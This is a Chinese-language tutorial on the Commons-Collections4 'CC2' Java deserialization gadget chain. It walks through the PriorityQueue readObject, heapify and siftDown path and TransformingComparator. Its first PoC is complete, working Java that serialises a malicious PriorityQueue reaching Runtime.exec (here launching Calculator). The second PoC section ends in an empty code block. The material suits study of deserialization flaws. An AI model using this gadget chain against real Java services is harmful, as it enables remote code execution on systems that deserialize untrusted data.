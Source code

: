 # 环境搭建
> 1. `JDK`版本：JDK1.8u66
> 2. `Commons-Collections4`版本：4.0
> 3. `javassit`版本：`3.25.0-GA`

> 利用`maven`来进行搭建，先创建一个`Maven`项目，不用选择任何`Maven`模板，`pom.xml`中内容如下，之后选择右侧的更新，让其自动导入包即可

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>commons-collections</artifactId>
    <version>1.0-SNAPSHOT</version>

    <dependencies>
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-collections4</artifactId>
            <version>4.0</version>
        </dependency>
        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>3.25.0-GA</version>
        </dependency>
    </dependencies>

</project>
```

# 前置知识
## PriorityQueue
> `PriorityQueue`优先级队列是基于优先级堆的一种特殊队列，它给每个元素定义“优先级”，这样取出数据的时候会按照优先级来取，默认情况下，优先级队列会根据自然顺序对元素进行排序；因此放入`PriorityQueue`的元素必须实现`Comparable`接口，`PriorityQueue`会根据元素的排序顺序决定出队的优先级，如果没有实现`Comparable`接口，`PriorityQueue`还允许提供一个`Comparator`对象来判断两个元素的顺序，`PriorityQueue`支持反序列化，在重写的`readObject`方法中将数据反序列化到`queue`中之后，会调用`heapify()`方法来对数据进行排序

<img src="./images/1.png" alt="">

> 在`heapify()`方法中又会调用`siftDown()`方法，在`comparator != null`下会调用`siftDownUsingComparator()`方法，在`siftDownUsingComparator()`方法中会调用`comparator`的`compare()`方法来进行优先级的比较和排序

<img src="./images/2.png" alt="">

## TransformingComparator
> `TransformingComparator`类似`TransformedMap`，用`Tranformer`来装饰一个`Comparator`，待比较的值将先使用`Tranformer`转换，再传递给`Comparator`比较，`TransformingComparator`初始化时配置`Transformer`和`Comparator`，如果不指定`Comparator`则使用`ComparableComparator.<Comparable>comparableComparator()`
> 在调用`TransformingComparator`的`compare`方法时，调用了`this.transformer.transform()`方法对要比较的两个值进行转换，然后再调用`compare`方法比较

<img src="./images/3.png" alt="">

> 在`PriorrityQueue`中最后会通过`comparator`的`compare()`方法来进行优先级的比较和排序，这里可以通过调用`TransformingComparator`中的`transform()`方法来和之前连接起来

## Javassist
> `Java`字节码以二进制的形式存储在`.class`文件中，每一个`.class`文件包含一个`Java`类或接口，`Javaassist`就是一个用来处理`Java`字节码的类库，它可以在一个已经编译好的类中添加新的方法，或者是修改已有的方法，并且不需要对字节码方面有深入的了解，同时也可以去生成一个新的类对象，通过完全手动的方式

## TemplatesImpl
> `TemplatesImpl`的属性`_bytecodes`存储了类字节码，`TemplatesImpl`类的部分方法可以使用这个类字节码去实例化这个类，这个类的父类需是`AbstractTranslet`，在这个类的无参构造方法或静态代码块中写入恶意代码，再借`TemplatesImpl`之手实例化这个类触发恶意代码

# Commons-Collections2 利用链分析
> 先跟进`PriorityQueue#readObject`，其`queue`的值来自于`readObject()`方法，是可控的，循环完成后会调用`heapify()`方法

```java
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    // Read in size, and any hidden stuff
    s.defaultReadObject();

    // Read in (and discard) array length
    s.readInt();

    queue = new Object[size];

    // Read in all elements.
    for (int i = 0; i < size; i++)
        queue[i] = s.readObject();

    // Elements are guaranteed to be in "proper order", but the
    // spec has never explained what that might be.
    heapify();
}
```
> 在`heapify()`方法中，继续会调用`siftDown()`方法，这里的`x`是可控的，让`comparator`不为空进而调用`siftDownUsingComparator()`方法，在`siftDownUsingComparator()`方法中会调用前面`comparator`的`compare`方法

```java
private void heapify() {
    for (int i = (size >>> 1) - 1; i >= 0; i--)
        siftDown(i, (E) queue[i]);
}

private void siftDown(int k, E x) {
    if (comparator != null)
        siftDownUsingComparator(k, x);
    else
        siftDownComparable(k, x);
}

private void siftDownUsingComparator(int k, E x) {
    int half = size >>> 1;
    while (k < half) {
        int child = (k << 1) + 1;
        Object c = queue[child];
        int right = child + 1;
        if (right < size &&
            comparator.compare((E) c, (E) queue[right]) > 0)
            c = queue[child = right];
        if (comparator.compare(x, (E) c) <= 0)
            break;
        queue[k] = c;
        k = child;
    }
    queue[k] = x;
}
```
> 这里将`comparator`和`TransformingComparator`结合起来，如果这里`this.transformer`是可控的话，就可以进一步利用`CC-1`链的后半段部分

```java
public int compare(I obj1, I obj2) {
    O value1 = this.transformer.transform(obj1);
    O value2 = this.transformer.transform(obj2);
    return this.decorated.compare(value1, value2);
}
```
> 这里需要注意几个地方，在`heapify()`方法处的`size`要是大于`1`的，只有这样才会继续进入到`siftDown()`方法中，而`size`的取值来自于

## POC 链1
> 利用`PriorityQueue`和`CommonsCollections-1`后半部分来进行构造

```java
package CommonsCollections2;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/26 9:42 下午
 */
public class CommonsCollectionsGadget1 {
    // public static void main(String[] args) throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
    public static void CC2() throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
        PriorityQueue priorityQueue = new PriorityQueue(2);
        priorityQueue.add(1);
        priorityQueue.add(2);
        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(priorityQueue, transformingComparator);
        try {
            // 序列化操作
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./CC2EvilGadget.bin"));
            outputStream.writeObject(priorityQueue);
            outputStream.close();
            // 反序列化操作
            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./CC2EvilGadget.bin"));
            inputStream.readObject();
            inputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC2();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

<img src="./images/4.png" alt="">

## POC 链2
> 利用`javassist`和`TemplatesImpl`来进行构造

```java

```